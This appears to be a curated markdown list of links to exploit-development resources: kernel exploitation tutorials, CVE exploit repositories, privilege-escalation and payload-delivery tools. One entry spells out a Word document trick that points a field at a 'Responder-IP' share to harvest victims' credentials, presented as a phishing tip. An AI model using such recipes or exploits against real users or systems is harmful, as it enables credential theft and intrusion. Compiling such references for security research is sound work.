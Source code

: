 -	Construction d'un PoC pour Spectre http://beta.hackndo.com/construction-poc-spectre/
-	[Kernel Exploitation] 1 Setting up the environment http://www.abatchy.com/2018/01/kernel-exploitation-1 2 Payloads http://www.abatchy.com/2018/01/kernel-exploitation-2 3 Stack Buffer Overflow (Windows 7 x86/x64) http://www.abatchy.com/2018/01/kernel-exploitation-3 4 Stack Buffer Overflow (SMEP Bypass) http://www.abatchy.com/2018/01/kernel-exploitation-4 5 Integer Overflow http://www.abatchy.com/2018/01/kernel-exploitation-5 6 NULL pointer dereference http://www.abatchy.com/2018/01/kernel-exploitation-6 7 Arbitrary Overwrite (Win7 x86 http://www.abatchy.com/2018/01/kernel-exploitation-7
-	Hardcore corruption of my execve() vulnerability in WSL https://github.com/saaramar/execve_exploit
-	Python Exploit Development Assistance: PEDAL https://n0where.net/python-exploit-development-assistance-pedal and [GitHub](https://github.com/akiym/pedal)
-	Visual Studio Code silently fixed a remote code execution vulnerability https://medium.com/0xcc/visual-studio-code-silently-fixed-a-remote-code-execution-vulnerability-8189e85b486b
-	CVE-2018-7600 Drupal - https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py
-	Arpag - Automatic Exploit Tool https://www.kitploit.com/2018/04/arpag-automatic-exploit-tool.html https://github.com/anilbaranyelken/arpag
-	Exploiting CVE-2018-1038 - Total Meltdown https://blog.xpnsec.com/total-meltdown-cve-2018-1038/ https://gist.github.com/xpn/bdb99cee8895bab4b1a0671696570d94
-	A bunch of my exploit development helper tools, collected in one place. https://github.com/mgeeky/Exploit-Development-Tools
-	Robber is open source tool for finding executables prone to DLL hijacking https://mojtabatajik.github.io/Robber/ https://github.com/MojtabaTajik/Robber
-	Word Exploit, won't patch by MS, it's a "feature"; Open Word -> CTRL + F9 -> IMPORT "\\\\Responder-IP\\1.jpg" -> right click and select "Edit Field" -> tick "Data not stored in document" -> save & close. Open the document -> free credentials :) Happy phishing! (https://twitter.com/PythonResponder/status/1161338972955697152\)
-	[Three New DDE Obfuscation Methods](https://blog.reversinglabs.com/blog/cvs-dde-exploits-and-obfuscation)
-	ClamAV Exploit - https://pastebin.com/cfP7X89m

### Local

-	LARE - [L]ocal [A]uto [R]oot [E]xploiter is a Bash Script That Helps You Deploy Local Root Exploits - http://www.kitploit.com/2017/06/lare-local-auto-root-exploiter-is-bash.html / https://github.com/EnigmaDimitri/LARE
-	Gain Command Prompt Access via MsPaint https://infamoussyn.com/2013/03/19/gain-command-prompt-access-via-mspaint/
-	Create LNK files to exploit CVE-2017-8464 aka LNK round 3 https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Export-LNKPwn.ps1
-	WSH Injection: A Case Study https://posts.specterops.io/wsh-injection-a-case-study-fd35f79d29dd
-	Abusing Token Privileges For Windows Local Privilege Escalation https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/ https://github.com/hatRiot/token-priv
-	EvilAbigail - Automated Linux Evil Maid Attack - Initrd encrypted root fs attack http://www.kitploit.com/2017/08/evilabigail-automated-linux-evil-maid.html https://github.com/GDSSecurity/EvilAbigail
-	Certutil for delivery of files http://carnal0wnage.attackresearch.com/2017/08/certutil-for-delivery-of-files.html https://github.com/harleyQu1nn/AggressorScripts/blob/master/CertUtilWebDelivery.cna https://gist.github.com/rsmudge/629bd4ddce3bbbca1f8c16378a6a419c https://twitter.com/subTee/status/888071631528235010 or https://github.com/re4lity/subTee-gits-backups
-	https://github.com/0xdea/exploits Vuln AIX, Linux, MySQL, Oracle, Solaris et Divers
-	Remote Recon and Collection (RemoteRecon provides the ability to execute post-exploitation capabilities against a remote host, without having to expose your complete toolkit/agent.) https://github.com/xorrior/RemoteRecon
-	CVE-2017-8759-Exploit-sample https://github.com/Voulnet/CVE-2017-8759-Exploit-sample Word macro runs in the Doc1.doc file. The macro downloads a badly formatted txt file over wsdl, which triggers the WSDL parser log. Then the parsing log results in running mshta.exe which in turn runs a powershell commands that runs mspaint.exe
-	CVE-2017-8759 - A vulnerability in the SOAP WDSL parser. https://github.com/vysec/CVE-2017-8759 https://www.mdsec.co.uk/2017/09/exploiting-cve-2017-8759-soap-wsdl-parser-code-injection/
-	https://github.com/WindowsExploits/Exploits
-	Hook ActivationContext. This is simple tool to hook and force process to load redirected DLL. https://github.com/deroko/activationcontexthook